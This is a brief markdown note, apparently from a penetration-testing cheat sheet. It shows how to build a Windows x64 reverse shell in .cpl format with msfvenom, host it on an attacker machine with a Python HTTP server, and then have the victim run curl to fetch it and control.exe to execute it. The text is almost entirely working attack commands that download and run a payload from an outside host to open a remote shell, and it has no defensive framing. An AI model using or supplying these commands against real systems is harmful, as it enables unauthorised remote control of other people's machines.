 # Attacker server
- Generating a simple x64 reverse shell in a .cpl format:
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.213.136 LPORT=4444 -f cpl -o shell.cpl
```
- Run listening server:
```python
python3 -m http.server 80
```
# Victim machine
- Open cmd.exe and run the following command
```cmd
curl -O http://192.168.213.136/shell.cpl
control.exe .\shell.cpl
```
